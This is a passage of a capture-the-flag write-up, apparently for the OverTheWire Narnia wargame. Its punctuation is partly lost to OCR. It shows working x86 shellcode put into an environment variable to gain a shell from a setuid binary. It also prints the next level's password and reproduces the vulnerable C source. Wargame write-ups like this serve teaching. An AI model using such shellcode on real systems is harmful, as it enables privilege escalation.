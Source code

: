    highlight bash   
narnia1 narnia  narnia  export EGG   python  c  print  x31xc0x50x68x2fx2fx73x68x68x2fx62x69x6ex89xe3x50x53x89xe1xb0x0bxcdx80                         
narnia1 narnia  narnia  echo  EGG1Ph  shh binPS          
                                  
narnia1 narnia  narnia    narnia1  
Trying to execute EGG                   
Segmentation fault                  
   endhighlight   

I do not know why this particular shellcode does not work  However  trying a shellcode  6    ftnt6  that executes  bin bash does work 

   highlight bash   
narnia1 narnia  narnia  export EGG   python  c  print  x6ax0bx58x99x52x66x68x2dx70x89xe1x52x6ax68x68x2fx62x61x73x68x2fx62x69x6ex89xe3x52x51x53x89xe1xcdx80     
narnia1 narnia  narnia    narnia1  
Trying to execute EGG   
bash 4 4  whoami  
narnia2  
bash 4 4  cat  etc narnia pass narnia2  
nairiepecu
   endhighlight   

    Source Code

   highlight c   
 include  stdio h   
  
int main      int   ret       if getenv  EGG    NULL         printf  Give me something to execute at the env variable EGGn          exit 1    
       printf  Trying to execute EGG n     
   ret   getenv  EGG     
   ret      return 0   
 
   endhighlight   

Note how the ret variable is not assigned a buffer  This is why the content of the environment variable was not seen in the ESP register during the analysis in pwndbg 

Narnia 2
        

Using the credentials obtained for the narnia2 user  we can execute the narnia2 binary 

   highlight bash   
narnia2 narnia  narnia    narnia2  
Usage    narnia2 argument  
narnia2 narnia  narnia    narnia2 A  
Anarnia2 narnia  narnia 
   endhighlight   

Looking at the usage of the program  we see that it expects an argument  Inputting an argument of  A  just makes the program print out the same character  In essence  the program spits out whatever we put in  As usual  we will analyze the binary on a local attack box to understand it better 

     reports Narnia image8 png 
